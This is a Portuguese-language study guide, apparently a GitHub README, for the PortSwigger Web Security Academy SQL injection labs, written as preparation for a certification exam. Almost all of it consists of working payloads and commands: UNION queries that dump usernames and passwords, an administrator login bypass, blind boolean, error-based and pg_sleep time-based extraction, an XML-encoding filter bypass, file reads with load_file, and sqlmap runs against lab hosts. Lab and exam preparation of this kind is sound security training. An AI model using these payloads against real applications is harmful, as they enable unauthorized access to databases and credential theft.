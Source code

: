 # SQL Injection

Probabilidade: $${\color{red}alta}$$.

Para o aprendizado, aprenda como explorar os laboratórios manualmente. É fundamental que você entenda como os ataques, os payloads e as queries funcionam no back-end.

Para o exame, aprenda como usar o SQLMap para resolver os laboratórios. O maior desafio do exame é o limite de tempo, e usar o SQLMap vai te poupar MUITO tempo.

Procure por Injection em funções óbvias como buscas, mas também em outros exemplos da PortSwigger como nos cookies.

> [!TIP]
> Às vezes copiar a request do Burp e colar em um arquivo .TXT não vai funcionar no SQLMap. Para resolver isso, você pode tanto salvar o arquivo clicando com o botão direito na request e em "Save Item" ou pegar a requisição pela tab Network do browser e selecionar "copy as cURL".

<br>

## Laboratórios

**SQL Injection with Filter bypass via XML encoding**

Descubra o Injection com:
```
<storeId>
    1 + 1
</storeId>
```

Utilize a extensão Hackvertor para encodar o payload em entidades:

Extensions --> Hackvertor --> Encode --> dec_entities ou hex_entities
```
<storeId><@hex_entities>1 UNION SELECT username || '~' || password FROM users<@/hex_entities></storeId>
```

Versão adaptada:
```
<@hex_entities>1 UNION all select load_file('/home/carlos/secret')<@/hex_entities>  

OU

<@hex_entities>1 UNION all select load_file('/home/carlos/secret') into outfile '/tmp/secret'<@/hex_entities>
```

<br>
<br>

**SQL Injection Vulnerability in WHERE Clause Allowing Retrieval of Hidden Data**

```
filter?category=Gifts' OR 1=1--
```

<br>
<br>

**SQL Injection Vulnerability Allowing Login Bypass**
```
administrator'--
```

<br>
<br>

**SQL Injection Attack, Listing the Database Contents on non-Oracle Databases**
```
sqlmap -u "https://0abb004b036cf05c8057b76900880048.web-security-academy.net/filter?category=Food+%26+Drink" <HEADERS COPIED BY CURL> -dbms postgresql --dbs
```

<br>
<br>

**SQL Injection Attack, Listing the Database Contents on Oracle**
```
sqlmap -u "https://0a5b000e03ac492e8091e99900e7000a.web-security-academy.net/filter?category=Pets" <HEADER COPIED BY CURL> --dbms Oracle --dbs
```

<br>
<br>

**SQL Injection UNION attack, Retrieving Data from Other Tables**
```
GET /filter?category=Gifts' UNION SELECT password,NULL from users--
```

<br>
<br>

**SQL Injection UNION Attack, Retrieving Multiple Values in a Single Column**
```
/filter?category=Gifts' UNION SELECT NULL,username || '~' || password
```

<br>
<br>

**Blind SQL Injection with Conditional Responses**
```
# Salve a request em um arquivo e coloque um asterisco no cookie vulnerável:
Cookie: TrackingId=*;

sqlmap -r request.txt
```

O comando acima vai utilizar injeção baseado em tempo e isso vai demorar bastante.

Para usar injeção condicional (utilize um cookie válido):
```
sqlmap -r request.txt --cookie="TrackingId=eZtIVdXggNeHUXsS" --string "Welcome" --technique B -p "TrackingId" --level 3 --dbs
```

<br>
<br>

**Blind SQL Injection with Conditional Errors**
```
# Error 500 significa que a query é verdadeira
TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'

# Status 200 significa que a query é falsa
TrackingId=xyz'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'
```

<br>
<br>

**Visible Error-Based SQL Injection**
```
TrackingId=' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--
```

<br>
<br>

**Blind SQL Injection with Time Delays and Information Retrieval**
```
# Lembre de encodar o ponto e vírgula em URL

# Descobrindo o tamanho do password:
TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>3)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--

# Utilizando o Intruder para dumpar a senha:
';SELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,§1§,1)='§a§')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--

# Utilizando Python:
';SELECT CASE WHEN (username='administrator' AND SUBSTRING(password,%s,1)='%s') THEN pg_sleep(3) ELSE pg_sleep(0) END FROM users--
```

SQL Injection with Filter Bypass via XML encoding








